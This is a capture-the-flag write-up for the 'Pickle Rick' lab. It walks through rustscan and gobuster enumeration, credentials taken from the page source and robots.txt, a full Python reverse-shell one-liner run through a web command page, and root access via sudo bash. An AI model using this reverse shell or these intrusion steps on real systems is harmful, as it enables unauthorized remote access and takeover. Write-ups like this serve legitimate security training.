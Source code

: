 # Pickle rick

## Enumeration
Scanning using rustscan shows 2 port are open, webserver and ssh server

![screenshot](images/scan.png)

Inspecting the source code, we found his username which is `R1ckRul3s`

![screenshot](images/username.png)

Robots.txt shows a text that could be some kind of password? it is `Wubbalubbadubdub`

![screenshot](images/rb.png)

Not much info can be found right now so I enumerate the directory using gobuster
`gobuster dir -t 16 -u http://10.10.215.45/:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
Gobuster revealed login.php, visiting it and using the login credentials we are greeted with a command execution page

![screenshot](images/command.png)

## Gaining access
With the command execution, testing out linux commands like ls -a revealed file content but this also means
we could potentially gain a reverse shell. We see that python3 is available and this can be used to get reverse shell
using `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

We are now able to read the content to retrieve the first ingredient.

![screenshot](images/ingredient1.png)

The next ingredient can be found in the home directory 

![screenshot](images/ingredient2.png)

Lastly, just trying out sudo bash allowed us to gain root so the last ingredient is probably in the root directory

![screenshot](images/ingredient3.png)


